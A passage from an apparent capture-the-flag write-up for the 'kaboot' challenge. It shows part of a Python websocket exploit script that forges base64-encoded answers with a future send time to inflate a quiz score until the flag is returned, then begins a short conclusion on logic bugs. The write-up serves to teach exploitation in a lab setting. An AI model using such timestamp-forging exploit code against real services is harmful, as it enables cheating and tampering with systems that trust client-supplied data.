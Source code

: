 ```python
                if i != 0:
                    LastKnownScore = question['scores'][-1][2]
                    print(f'[*] Last known score: {LastKnownScore}')
                if 'message' in question and question['message'] == '???':
                    print('[-] You\'re sending too fast! Adjust the race window to a *lower* value!')
                    return

                answer = question['answer']
                ID = '1'
                sendTime = time.time() + raceWindow

                encodedMessage = base64.b64encode('{{"id":"{0}","answer":{1},"send_time":{2}}}'.format(ID, answer, sendTime).encode())
                await websocket.send(encodedMessage)

            message = await websocket.recv() # final answer's information
            finalMessage = json.loads(base64.b64decode(message).decode())
            finalScore = finalMessage['scores'][-1][2]
            print(f'[*] Final score: {finalScore}')
            allScores.append(finalScore)
            
            if finalMessage['message'] == '???':
                print('[-] You\'re sending too fast! Adjust the race window to a *lower* value!')
            elif finalMessage['message'] == 'sucks to suck brooooooooo':
                print('[-] Current score is <= 10000. Adjust the race window to a *higher* value!')
            elif 'omg congrats' in finalMessage['message']:
                if (flagMatch := re.search(FLAG_FORMAT, finalMessage['message'])) or (flagMatch := re.search(LOCAL_FLAG_FORMAT, finalMessage['message'])):
                    flag = flagMatch.group(0)
                    print(f'[+] Current score is >= 10000. Here\'s the flag: {flag}')
                    exit(0)
    except websockets.exceptions.ConnectionClosedError:
        print('[*] Connection closed')

if __name__ == "__main__":
    # url = "ws://localhost:5000/room/literally_anything" # local testing
    url = "wss://kaboot-e29d3ec9287c0db8.tjc.tf/room/literally_anything" # remote instance

    raceWindow = 0.10555555 # adjust this race window value
    ATTEMPT = 100
    for i in range(ATTEMPT):
        print(f'[*] Attempt {i + 1}...')
        asyncio.run(exploit(url, raceWindow))
    
    highestScore = max(allScores)
    print(f'[*] Highest score: {highestScore}')
```

However, this takes a lot of attempts to gain more than `9999` score.
{% endraw %}

## Conclusion

What we've learned:

1. Exploiting logic bug